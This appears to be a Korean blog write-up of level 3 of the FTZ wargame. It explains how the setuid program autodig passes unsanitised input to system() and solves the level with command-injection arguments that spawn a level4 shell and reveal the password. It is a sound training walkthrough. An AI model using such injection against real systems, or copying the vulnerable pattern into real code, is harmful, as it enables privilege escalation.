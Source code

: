```yaml
---
layout: post
title: ! "[FTZ] level 3"
categories: [FTZ]
excerpt: " "
comments: true
share: true
tags:
  - FTZ
---
```


id = level3 pw = level3

![]({{ site.baseurl }}/assets/posts/ftz/level3.png)
cat 으로 hint 파일을 열면

```c
[level3@ftz level3]$ cat hint

다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){
    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );
}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
```

이렇게 autodig의 소스와 힌트가 있다.
우선 setuid가 있는 파일을 찾자.
```
[level3@ftz level3]$ find / -perm -4000 -user level4 2>/dev/null
/bin/autodig
```
![]({{ site.baseurl }}/assets/posts/ftz/level3_autodig.png)

그냥 autodig 파일을 실행시키면
```
printf( "Auto Digger Version 0.9\n" );
printf( "Usage : %s host\n", argv[0] );
``` 
이 부분만 출력된다.

```
strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");
system( cmd );
```
이 코드를 보면
strcpy, strcat을 좀 알아야 하는데
autodig의 인자가 2개이면 cmd에 dig @ 를 복사해넣고, cmd에 argv[1] 의 값과 version.bind chaos txt를 이어 붙인다.
그 후 system 함수를 통해 cmd를 실행시킨다.

힌트 부분을 생각한다면

- 동시에 여러 명령어를 사용하려면?     => ; 사용
- 문자열 형태로 명령어를 전달하려면?    => " " 사용

![]({{ site.baseurl }}/assets/posts/ftz/level3_colon.png)

이런식으로 ./autodig ~~~~ ; my-pass 를 하면 현재 level3의 pw를 알아낼 수 있으므로
; 과 " 를 사용해 level4 의 쉘을 실행시키고 my-pass로 pw를 알아내는 방법이 있다.

1. ./autodig "level4;/bin/bash;"
![]({{ site.baseurl }}/assets/posts/ftz/level3_solve1.png)

2. ./autodig "/bin/bash;my-pass;"
![]({{ site.baseurl }}/assets/posts/ftz/level3_solve2.png)


